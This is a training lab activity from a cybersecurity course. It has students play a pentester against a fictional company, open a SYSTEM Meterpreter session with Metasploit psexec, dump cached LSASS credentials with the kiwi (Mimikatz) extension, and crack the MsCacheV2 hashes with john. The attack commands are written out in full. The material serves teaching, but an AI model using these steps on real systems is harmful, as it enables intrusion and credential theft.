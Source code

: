 ## Activity File: Credential Dumping

In this activity, you will continue to play the role of a pentester conducting an engagement on MegaCorpOne. You have now been tasked to use the Metasploit `kiwi` extension to dump the credentials that are cached on the WIN10 machine. Then you will save and crack the hashes using `john`.

### Instructions

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module. `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	- ![A screenshot depicts the results of the command.](../../../Images/psexecoptions.PNG)
	
3. Run the module with `run`

	- ![A screenshot depicts the results of the command.](../../../Images/runpsexec.PNG)

4. In your Meterpreter session, load the `kiwi` extension.

     - `load kiwi`

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter.

     - `?`

6. Dump all of the cached credentials from LSASS using a `kiwi_cmd` command. Reference the following cheatsheet for Mimikatz. Pay attention to the "lsadump" section. 
	
     - [Mimikatz Cheatsheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49)

     **Note**: If the `kiwi` command is not dumping credentials as expected, try migrating to another process using the `migrate` command. Keep in mind that you'll want to migrate to another SYSTEM x64 process.

7. In the output, the hashes are displayed after the 'MsCacheV2 field'. MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`, as shown below.

	![A screenshot depicts the format of the hashes.](../../../Images/hashformat.PNG)
	
	Using `john`, attempt to crack the password. Your `john` command should use the flag --format=mscash2, e.g. `john --format=mscash2 hashes.txt`

8. You should now have the plaintext password to the new account, 'bbanner'.
                                                                                                                               
---
© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.



